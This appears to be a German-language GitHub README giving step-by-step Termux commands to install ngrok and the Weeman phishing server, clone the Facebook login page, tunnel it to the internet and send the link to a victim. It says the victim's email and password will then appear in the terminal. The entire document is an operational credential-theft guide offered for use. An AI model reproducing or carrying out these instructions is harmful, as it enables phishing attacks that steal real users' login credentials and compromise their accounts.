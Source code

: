 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. cd /sdcard/download
2. unzip ngrok.zip
3. cp ngrok $HOME
4. cd $HOME
5. ls
6. chmod 777 ngrok
7. ./ngrok
8. ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]

 zu 8.: dieser schritt ist nicht unbedingt notwendig

# Installieren

TIPPE


  apt update && apt upgrade

dann TIPPE


  pkg install git

kopieren den folgenden Link


  git clone https://github.com/GottModusTermux/G0D

  ls

  cd G0D/weeman

  pkg install python2

  ls

  python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

-Befehl 1 

  set url yoursite.com

-Befehl 2 

  set port 8080

-Befehl 3 

  set action_url yoursite.com
  
-Befehl 4

  run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

-TIPPE

  cd G0D/weeman

  python2 weeman.py

  set url https://www.facebook.com/

  set port 8080

  set action_url https://www.facebook.com/

  run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... "cd G0D")

./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort bei dem Termux Fenster "weeman" sehen



HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.

